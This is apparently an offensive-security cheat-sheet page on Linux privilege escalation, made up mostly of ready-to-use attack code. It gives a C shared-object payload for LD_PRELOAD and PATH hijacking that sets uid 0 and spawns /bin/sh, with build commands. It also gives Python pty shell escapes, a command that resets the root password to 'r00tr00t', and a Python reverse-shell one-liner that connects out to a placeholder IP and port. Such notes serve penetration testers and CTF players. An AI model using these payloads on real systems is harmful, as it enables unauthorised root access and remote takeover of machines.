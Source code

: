 title: High Jacks

# C
Using the below shell code we can create a binary that will pop a shell as the user running it. This is useful if we can abuse programs or `sudo` misconfigurations 

```c
#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0);
    setgid(0);
    execl("/bin/sh", "sh", NULL);
}
```

* To build
```
gcc -o exploit shell.c
```

If `gcc` throws an error `/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/9/../../../x86_64-linux-gnu/Scrt1.o: in function _start: (.text+0x24): undefined reference to main'` then we can use the `-nostartfiles` flag

```
gcc -o exploit shell.c -nostartfiles
```

* To build as shared library 
```
gcc -shared -o exploit.so -fPIC  shell.c
```

Once built we can abuse `LD_PRELOAD` and `PATH`

# Python
Again we can use abuse `LD_PRELOAD` and `PATH` to escalate our privileges via python. 


**Interactive**

If we have a application we can abuse in an interactive way then we use `pty` to drop into a shell.

* write access to script
```
import pty;pty.spawn("/bin/bash")
```

* abuse library paths
```python
"""
"""
import pty
pty.spawn("/bin/bash")
exit()
```

**Non Interactive**

If the script is running under `cron`, `systemd` timers or other means then we will need to get creative.

We could use `os.system` to run a system command, for example if the script run's as root.

```python
import os
os.system("echo -n 'r00tr00t\nr00tr00t' | passwd")
```

Or we could use to get a reverse shell.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP-ADDRESS}",{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```